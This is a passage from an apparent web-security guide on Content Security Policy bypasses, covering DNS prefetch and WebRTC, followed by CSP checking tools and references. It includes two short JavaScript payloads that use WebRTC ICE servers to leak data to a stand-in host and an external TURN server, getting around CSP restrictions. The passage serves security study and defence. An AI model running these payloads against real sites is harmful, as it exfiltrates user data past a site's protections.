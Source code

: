 In order to avoid this from happening the server can send the HTTP header:

```
X-DNS-Prefetch-Control: off
```

{% hint style="info" %}
Apparently, this technique doesn't work in headless browsers (bots)
{% endhint %}

### WebRTC

On several pages you can read that **WebRTC doesn't check the `connect-src` policy** of the CSP.

Actually you can _leak_ informations using a _DNS request_. Check out this code:

```javascript
(async()=>{p=new RTCPeerConnection({iceServers:[{urls: "stun:LEAK.dnsbin"}]});p.createDataChannel('');p.setLocalDescription(await p.createOffer())})()
```

Another option:

```javascript
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```

## Checking CSP Policies Online

* [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com)
* [https://cspvalidator.org/](https://cspvalidator.org/#url=https://cspvalidator.org/)

## Automatically creating CSP

[https://csper.io/docs/generating-content-security-policy](https://csper.io/docs/generating-content-security-policy)

## References

* [https://hackdefense.com/publications/csp-the-how-and-why-of-a-content-security-policy/](https://hackdefense.com/publications/csp-the-how-and-why-of-a-content-security-policy/)
* [https://lcamtuf.coredump.cx/postxss/](https://lcamtuf.coredump.cx/postxss/)
* [https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
* [https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy#allowed-data-scheme](https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy#allowed-data-scheme)
* [https://www.youtube.com/watch?v=MCyPuOWs3dg](https://www.youtube.com/watch?v=MCyPuOWs3dg)
* [https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/](https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/)
* [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)
